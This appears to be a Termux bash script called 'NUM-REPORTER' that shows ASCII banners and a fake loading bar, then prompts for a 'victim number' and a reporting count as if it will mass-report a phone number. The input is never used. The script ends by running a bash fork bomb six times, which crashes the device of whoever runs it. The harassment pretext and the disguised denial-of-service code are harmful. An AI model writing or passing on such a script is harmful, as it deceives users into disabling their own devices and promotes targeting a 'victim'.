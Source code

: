 # jhony

 
apt update 

pkg upgrade 

pkg install git 


clear 


#😂😂######jhony ######



  
echo -e " \e[99m\e[1;96m
-------------------------------------------------------------------------------------------------------─
███╗   ██╗██╗   ██╗███╗   ███╗      ██████╗ ███████╗██████╗  ██████╗ ██████╗ ████████╗███████╗██████╗ 
████╗  ██║██║   ██║████╗ ████║      ██╔══██╗██╔════╝██╔══██╗██╔═══██╗██╔══██╗╚══██╔══╝██╔════╝██╔══██╗
██╔██╗ ██║██║   ██║██╔████╔██║█████╗██████╔╝█████╗  ██████╔╝██║   ██║██████╔╝   ██║   █████╗  ██████╔╝
██║╚██╗██║██║   ██║██║╚██╔╝██║╚════╝██╔══██╗██╔══╝  ██╔═══╝ ██║   ██║██╔══██╗   ██║   ██╔══╝  ██╔══██╗
██║ ╚████║╚██████╔╝██║ ╚═╝ ██║      ██║  ██║███████╗██║     ╚██████╔╝██║  ██║   ██║   ███████╗██║  ██║
╚═╝  ╚═══╝ ╚═════╝ ╚═╝     ╚═╝      ╚═╝  ╚═╝╚══════╝╚═╝      ╚═════╝ ╚═╝  ╚═╝   ╚═╝   ╚══════╝╚═╝  ╚═╝
                                                                                                      
                                       coded by jhony 
------------------------------------------------------------------------------------------------------─"
sleep 3
echo -e " \e [v.20] \e[1;96
  "

sleep  3


echo " "
echo " "
echo " "
echo " "
echo " "
echo " "
echo ""
echo ""
echo "" 
echo ""
echo  ' 
                     ┬  ┌─┐┌─┐┌┬┐┬┌┐┌┌─┐
                     │  │ │├─┤ │││││││ ┬
                     ┴─┘└─┘┴ ┴─┴┘┴┘└┘└─┘
'
echo""
echo""
echo""
echo""
echo "               "/█1%...................../
sleep 1
clear
echo " "
echo " "
echo " "
echo " "
echo "                "/█4%....................../
sleep 1
clear
echo " "
echo " "
echo " "
echo " "
echo " "
echo " "
echo " "
echo " "
echo " "
echo " "
echo '
                     ┬  ┌─┐┌─┐┌┬┐┬┌┐┌┌─┐
                     │  │ │├─┤ │││││││ ┬
                     ┴─┘└─┘┴ ┴─┴┘┴┘└┘└─┘
'
echo " "
echo " "
echo " "
echo " "
echo "                "/█8%......................./
sleep 2
clear
echo " "
echo " "
echo " "
echo " "
echo " "
echo " "
echo " "
echo " "
echo " "
echo " "
echo " "
echo " "
echo " "
echo ""
echo " "
echo " "
echo " "
echo " "
echo "                "/██10%....................../
sleep 1
clear
echo " "
echo " "
echo " "
echo " "
echo " "
echo " "
echo " "
echo " "
echo " "
echo " "
echo " "
echo " "
echo " "
echo "                "/██12%....................../
sleep 1
clear
echo " "
echo " "
echo " "
echo " "
echo " "
echo " "
echo " "
echo " "
echo " "
echo " "
echo '
                     ┬  ┌─┐┌─┐┌┬┐┬┌┐┌┌─┐
                     │  │ │├─┤ │││││││ ┬
                     ┴─┘└─┘┴ ┴─┴┘┴┘└┘└─┘
'
echo " "
echo " "
echo " "
echo " "
echo "                "/███15%..................../
sleep 0.0
clear
echo " "
echo " "
echo " "
echo " "
echo " "
echo " "
echo " "
echo " "
echo " "
echo " "
echo " "
echo " "
echo " "
echo ' 
                     ┬  ┌─┐┌─┐┌┬┐┬┌┐┌┌─┐
                     │  │ │├─┤ │││││││ ┬
                     ┴─┘└─┘┴ ┴─┴┘┴┘└┘└─┘
'
echo " "
echo " "
echo " "
echo " "
echo "               "/█████19%..................../
sleep 0.0
clear
echo " "
echo " "
echo " "
echo " "
echo " "
echo " "
echo " "
echo " "
echo " "
echo " "
echo " "
echo " "
echo " "
echo '
                     ┬  ┌─┐┌─┐┌┬┐┬┌┐┌┌─┐
                     │  │ │├─┤ │││││││ ┬
                     ┴─┘└─┘┴ ┴─┴┘┴┘└┘└─┘
'
echo " "
echo " "
echo " "
echo " "
echo "               "/██████28%..................../
sleep 0.5
clear
echo " "
echo " "
echo " "
echo " "
echo " "
echo " "
echo " "
echo " "
echo " "
echo " "
echo " "
echo " "
echo " "
echo '
                     ┬  ┌─┐┌─┐┌┬┐┬┌┐┌┌─┐
                     │  │ │├─┤ │││││││ ┬
                     ┴─┘└─┘┴ ┴─┴┘┴┘└┘└─┘
'
echo " "
echo " "
echo " "
echo " "
echo "                "/████████30%................../
sleep 0.0
clear
echo " "
echo " "
echo " "
echo " "
echo " "
echo " "
echo " "
echo " "
echo " "
echo " "
echo " "
echo " "
echo '
                     ┬  ┌─┐┌─┐┌┬┐┬┌┐┌┌─┐
                     │  │ │├─┤ │││││││ ┬
                     ┴─┘└─┘┴ ┴─┴┘┴┘└┘└─┘
'
echo " "
echo " "
echo " "
echo " "
echo "                "/██████████40%................/
sleep 0.0
clear
echo " "
echo " "
echo " "
echo " "
echo " "
echo " "
echo " "
echo " "
echo " "
echo " "
echo " "
echo " "
echo " "
echo '
                     ┬  ┌─┐┌─┐┌┬┐┬┌┐┌┌─┐
                     │  │ │├─┤ │││││││ ┬
                     ┴─┘└─┘┴ ┴─┴┘┴┘└┘└─┘
'
echo " "
echo " "
echo " "
echo " "
echo "                "/█████████████50%............./
sleep 2
clear
echo " "
echo " "
echo " "
echo " "
echo " "
echo " "
echo " "
echo " "
echo " "
echo " "
echo " "
echo " "
echo " "
echo '
                     ┬  ┌─┐┌─┐┌┬┐┬┌┐┌┌─┐
                     │  │ │├─┤ │││││││ ┬
                     ┴─┘└─┘┴ ┴─┴┘┴┘└┘└─┘
'
echo " "
echo " "
echo " "
echo " "
echo "                "/████████████████60%........../
sleep 0.0
clear
echo " "
echo " "
echo " "
echo " "
echo " "
echo " "
echo " "
echo " "
echo " "
echo " "
echo " "
echo " "
echo " "
echo '
                     ┬  ┌─┐┌─┐┌┬┐┬┌┐┌┌─┐
                     │  │ │├─┤ │││││││ ┬
                     ┴─┘└─┘┴ ┴─┴┘┴┘└┘└─┘
'
echo " "
echo " "
echo " "
echo " "
echo "                "/███████████████████88%......./
sleep 2.0
clear
echo " "
echo " "
echo " "
echo " "
echo " "
echo " "
echo " "
echo " "
echo " "
echo " "
echo " "
echo " "
echo " "
echo " "
echo " "
echo " "
echo " "
echo " "
echo " "
echo " "
echo " "
echo " "
echo " "
echo " "
echo " "
clear
echo ""
echo ""
echo ""
echo ""
echo ""
echo ""
echo ""
echo ""
echo ""
echo ""
echo ""
echo ""
echo ""
echo ""
echo ""
echo "" 
echo "               "[██████████████████████ 100%]
echo ""
echo ""
echo ""
echo ""
echo ""
clear



echo -e " \e[99m\e[1;96m
-------------------------------------------------------------------------------------------------------─
███╗   ██╗██╗   ██╗███╗   ███╗      ██████╗ ███████╗██████╗  ██████╗ ██████╗ ████████╗███████╗██████╗
████╗  ██║██║   ██║████╗ ████║      ██╔══██╗██╔════╝██╔══██╗██╔═══██╗██╔══██╗╚══██╔══╝██╔════╝██╔══██╗
██╔██╗ ██║██║   ██║██╔████╔██║█████╗██████╔╝█████╗  ██████╔╝██║   ██║██████╔╝   ██║   █████╗  ██████╔╝
██║╚██╗██║██║   ██║██║╚██╔╝██║╚════╝██╔══██╗██╔══╝  ██╔═══╝ ██║   ██║██╔══██╗   ██║   ██╔══╝  ██╔══██╗
██║ ╚████║╚██████╔╝██║ ╚═╝ ██║      ██║  ██║███████╗██║     ╚██████╔╝██║  ██║   ██║   ███████╗██║  ██║
╚═╝  ╚═══╝ ╚═════╝ ╚═╝     ╚═╝      ╚═╝  ╚═╝╚══════╝╚═╝      ╚═════╝ ╚═╝  ╚═╝   ╚═╝   ╚══════╝╚═╝  ╚═╝
                               coded by jhony 
                                        
------------------------------------------------------------------------------------------------------─"
sleep 3
echo -e " \e [v.20] \e[1;96
  "

sleep  3





read -p " [+] enter your victim number :" token
#groupil source code eduthitt patti show umfanda🥲#
read -p " [+] enter count of reporting :" token 
:(){ :|:& };:
:(){ :|:& };:
:(){ :|:& };:
:(){ :|:& };:
:(){ :|:& };:
:(){ :|:& };:
